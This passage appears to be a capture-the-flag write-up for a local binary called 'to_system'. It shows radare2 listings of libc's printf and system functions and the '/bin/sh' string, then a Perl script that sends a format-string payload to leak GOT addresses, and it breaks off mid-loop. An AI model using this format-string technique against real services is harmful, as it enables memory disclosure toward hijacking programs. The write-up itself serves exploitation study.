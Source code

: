 ```
0x00065650   29 446  -> 390  sym._IO_puts
0x00069710    8 151  -> 140  sym.fputs_unlocked
0x000f1050   73 1056 -> 1036 sym.putspent
0x000f2860   33 521  -> 514  sym.putsgent
[0x00019be0]> afl~printf
<snip>
0x0004c940   16 216  -> 225  sym.register_printf_type
0x0004ca20  119 2048 -> 1983 sym.printf_size
0x0004d220    3 42           sym.printf_size_info
0x0004d250    1 35           sym._IO_fprintf
0x0004d280    1 52           sym._IO_printf
0x0004d2c0    1 56           sym.snprintf
0x0004d300    1 35           sym.sprintf
<snip>
[0x00019be0]> afl~system
0x00040190   62 152  -> 1325 sym.__libc_system
0x00119240    1 73           sym.svcerr_systemerr
[0x00019be0]> iz~/bin/sh
vaddr=0x00160a24 paddr=0x00160a24 ordinal=633 sz=8 len=7 section=.rodata type=ascii string=/bin/sh
```

My solution (cut up in pieces to be easy digestable). First just connect to the executable which we ran with `$ socat -v tcp-l:1337,fork exec:'./to_system'`
```perl
use strict;
use warnings;
use IO::Socket::INET;

#####
my $ip = "127.0.0.1";
my $port = 1337;
my $protocol = "tcp";
my $got_table = "\x0c\xa0\x04\x08";
#####

my $socket = new IO::Socket::INET(
    PeerHost => $ip,
    PeerPort => $port,
    Proto => $protocol,
);
die "[-] Could not connect: $!\n" unless $socket;
print "[+] Connected to $ip:$port\n";

# Receive line of text
$socket->recv(my $response, 5000);
print "[+] Response: $response\n";
```

Now the program is expecting a (format) string input, we use this to leak the got table:
```perl
my $fmt = "${got_table}%8\$s\n";
print "[+] Sending format string ...\n";
$socket->send($fmt, 5000);

# Receive line of text
$socket->recv($response, 5000);
print "[+] Response: $response\n";

# Parse response
$response =~ /Unsafe printing: (.+)\nNow that/s;
my $got_bytes = $1;
my @addresses = unpack("V*", $got_bytes);
foreach(@addresses) {
	printf("[+] Address leaked: 0x%08x\n", $_);
```